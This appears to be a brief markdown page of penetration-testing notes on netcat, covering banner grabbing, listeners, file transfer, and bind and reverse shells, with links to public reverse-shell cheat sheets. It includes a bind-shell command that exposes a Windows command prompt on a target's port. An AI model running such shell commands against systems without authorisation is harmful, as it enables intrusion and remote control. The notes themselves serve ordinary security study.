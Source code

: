 # Netcat
TCP/IP swiss army knife

Banner Grabbing -- ```nc -nv (ip address) (port)``` 
Listener -- ```nc -lnv (ip address) (port)``` 

Sending and receiving files  
**Listening** - ```nc -lvnp 123 > (filename)```  
**Pulling file** -- ```nc -nv (ip address) (port) < (filename)```

### Bind Shell
Attacker connects directly to a system  
Bind shells require a listener from the targets machine.  
On target -- ```nc.exe -lvnp 1234 -e cmd```  
Connecting with bind shell -- ```nc -nv  (target IP) (port number)```  

### Reverse Shell
This is having the target communicate back with your machine  
This does not require netcat to be installed on the target  

**Reverse shell cheat sheet**  
[Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)  
[RevShells](https://www.revshells.com/)  
